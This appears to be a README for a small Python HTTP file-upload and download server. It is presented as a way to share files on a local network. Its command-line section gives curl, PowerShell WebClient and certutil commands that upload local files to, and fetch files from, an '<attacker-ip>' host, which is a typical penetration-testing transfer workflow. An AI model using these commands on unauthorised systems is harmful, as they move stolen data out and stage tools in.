 # 🔁 Advanced File Transfer Server

A lightweight, cross-platform, zero-dependency HTTP server written in Python that enables file upload and download from any system via a web browser or command line. Perfect for sharing files across local networks quickly and safely (for trusted environments).

---

## ✅ Features

- 📂 Browse directories via a web browser  
- 📥 Download files via direct links  
- ⬆️ Upload files via web interface  
- 🧾 Upload files via `curl` using the `PUT` method  
- 📁 Uploaded files respect the path based on browser or CLI context  
- ⚙️ Works on **Linux**, **macOS**, and **Windows**  
- 🚫 100% standard Python no third-party dependencies  

---

## 💻 Requirements

- Python 3.x (tested on 3.6+)  
- Open network port (default: `8080`)  
- No installation or configuration required  

---

## 🚀 Getting Started

### Clone or Download
```bash
git clone https://github.com/Chittu13/File_Transfer.git
cd File_Transfer
python3 Httpseever3.py

#Or

python2 Httpserver2.py
```


## 🌐 Web Interface

- Open `http://<your-ip>:8080/` in your browser  
- Navigate folders by clicking on links  
- Use the upload form to send files to the current folder  
- Uploaded files are saved in the **current folder you are viewing**  

---

## 📤 Upload & Download via Command Line

### Linux

#### Upload
```bash
curl -T file http://<attacker-ip>:8080/
```

#### Download
```bash
wget http://<attacker-ip>:8080/file.txt
```

### Windows

#### Upload 
```powershell
# Using curl
curl -T C:\Users\Public\file.txt http://<attacker-ip>:8080/

# Using PowerShell WebClient
$WebClient = New-Object System.Net.WebClient
$WebClient.UploadFile("http://<attacker-ip>:8080/file.txt", "PUT", "C:\Users\Public\file.txt")
```

#### Download 
```powershell
# Using Invoke-WebRequest
Invoke-WebRequest -Uri "http://<attacker-ip>:8080/file.txt" -OutFile "C:\Users\Public\file.txt"

# Using certutil
certutil -urlcache -split -f "http://<attacker-ip>:8080/file.txt" "C:\Users\Public\file.txt"

# Using curl
curl -o C:\Users\Public\file.txt http://<attacker-ip>:8080/file.txt
```

## 🛡 Security Warning

⚠️ This tool is **not secure for public or internet-facing use**:  

- No authentication or encryption  
- No user restrictions  
- Anyone on the network can access, upload, or download files  

✅ **Use only:**  

- On local networks  
- With trusted users  
- In controlled environments
